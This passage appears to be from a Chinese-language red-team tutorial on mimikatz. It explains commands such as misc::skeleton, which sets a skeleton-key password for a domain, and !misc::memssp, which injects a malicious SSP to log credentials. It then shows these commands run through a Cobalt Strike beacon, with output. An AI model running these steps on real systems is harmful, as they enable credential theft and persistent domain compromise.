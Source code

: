 * `misc::cmd`

  如果注册表中禁用了 CMD ，就重新启用它

* `!misc::memssp`

  注入恶意的 Windows SSP 来记录本地身份验证凭据，这个凭证存储在“C:\windows\system32\mimilsa.log”中

* `misc::skeleton`

  该命令仅限域内使用。该命令会给所有域内用户添加一个相同的密码，域内所有的用户都可以使用这个密码进行认证，同时原始密码也可以使用,其原理是对 lsass.exe 进行注入，重启后会失效。

* `process::suspend [pid]`

  挂起某个进程，但是不结束它

* `process::resume [pid]`

  恢复挂起的进程

以上的这些只是`mimikatz`能做事情的一小部分，下面看看`!misc::memssp`的使用。

```
mimikatz !misc::memssp
cd C:\Windows\system32
shell dir mimilsa.log
shell type mimilsa.log
```

详细运行过程：

首先运行`mimikatz !misc::memssp`

```
beacon> mimikatz !misc::memssp
[*] Tasked beacon to run mimikatz's !misc::memssp command
[+] host called home, sent: 1006151 bytes
[+] received output:
Injected =)
```

接下来来到`C:\Windows\system32`目录

```
beacon> cd C:\Windows\system32
[*] cd C:\Windows\system32
[+] host called home, sent: 27 bytes

beacon> shell dir mimilsa.log
[*] Tasked beacon to run: dir mimilsa.log
[+] host called home, sent: 46 bytes
[+] received output:
 驱动器 C 中的卷没有标签。
 卷的序列号是 BE29-9C84

 C:\Windows\system32 的目录

2020/07/23  21:47                24 mimilsa.log
               1 个文件             24 字节
               0 个目录 17,394,728,960 可用字节
```
